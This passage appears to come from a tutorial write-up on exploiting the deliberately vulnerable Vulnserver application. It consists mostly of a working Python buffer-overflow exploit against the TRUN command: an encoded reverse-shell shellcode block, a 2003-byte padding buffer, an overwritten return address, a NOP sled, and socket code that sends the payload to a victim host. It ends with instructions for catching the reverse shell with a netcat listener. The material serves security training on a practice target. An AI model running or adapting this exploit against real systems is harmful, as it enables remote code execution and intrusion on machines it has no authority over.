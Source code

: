```python
shellcode += "\x83\x27\x64\x95\xba\xe7\x79\xd4\xfb\x1a\x73\x84"
shellcode += "\x54\x50\x26\x38\xd0\x2c\xfb\xb3\xaa\xa1\x7b\x20"
shellcode += "\x7a\xc3\xaa\xf7\xf0\x9a\x6c\xf6\xd5\x96\x24\xe0"
shellcode += "\x3a\x92\xff\x9b\x89\x68\xfe\x4d\xc0\x91\xad\xb0"
shellcode += "\xec\x63\xaf\xf5\xcb\x9b\xda\x0f\x28\x21\xdd\xd4"
shellcode += "\x52\xfd\x68\xce\xf5\x76\xca\x2a\x07\x5a\x8d\xb9"
shellcode += "\x0b\x17\xd9\xe5\x0f\xa6\x0e\x9e\x34\x23\xb1\x70"
shellcode += "\xbd\x77\x96\x54\xe5\x2c\xb7\xcd\x43\x82\xc8\x0d"
shellcode += "\x2c\x7b\x6d\x46\xc1\x68\x1c\x05\x8e\x5d\x2d\xb5"
shellcode += "\x4e\xca\x26\xc6\x7c\x55\x9d\x40\xcd\x1e\x3b\x97"
shellcode += "\x32\x35\xfb\x07\xcd\xb6\xfc\x0e\x0a\xe2\xac\x38"
shellcode += "\xbb\x8b\x26\xb8\x44\x5e\xe8\xe8\xea\x31\x49\x58"
shellcode += "\x4b\xe2\x21\xb2\x44\xdd\x52\xbd\x8e\x76\xf8\x44"
shellcode += "\x59\x73\xfd\x46\xd7\xeb\xff\x46\xf6\xb7\x76\xa0"
shellcode += "\x92\x57\xdf\x7b\x0b\xc1\x7a\xf7\xaa\x0e\x51\x72"
shellcode += "\xec\x85\x56\x83\xa3\x6d\x12\x97\x54\x9e\x69\xc5"
shellcode += "\xf3\xa1\x47\x61\x9f\x30\x0c\x71\xd6\x28\x9b\x26"
shellcode += "\xbf\x9f\xd2\xa2\x2d\xb9\x4c\xd0\xaf\x5f\xb6\x50"
shellcode += "\x74\x9c\x39\x59\xf9\x98\x1d\x49\xc7\x21\x1a\x3d"
shellcode += "\x97\x77\xf4\xeb\x51\x2e\xb6\x45\x08\x9d\x10\x01"
shellcode += "\xcd\xed\xa2\x57\xd2\x3b\x55\xb7\x63\x92\x20\xc8"
shellcode += "\x4c\x72\xa5\xb1\xb0\xe2\x4a\x68\x71\x12\x01\x30"
shellcode += "\xd0\xbb\xcc\xa1\x60\xa6\xee\x1c\xa6\xdf\x6c\x94"
shellcode += "\x57\x24\x6c\xdd\x52\x60\x2a\x0e\x2f\xf9\xdf\x30"
shellcode += "\x9c\xfa\xf5"

payload  = "A" * 2003 # fill up the buffer after calculating the offset
payload += struct.pack("<L", 0x625011AF) 
payload += "\x90" * 16
payload += shellcode

buffer_exploit = "TRUN /.:/" + payload

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)
print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```

## Obtaining a reverse shell
----

We can catch our incoming reverse shell with nc on our host system. Use the syntax `nc -nvlp 4444` to start a localbased listener waiting for our reverse shell to be executed in the victim application.

![vulnserver 9](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver9.png)
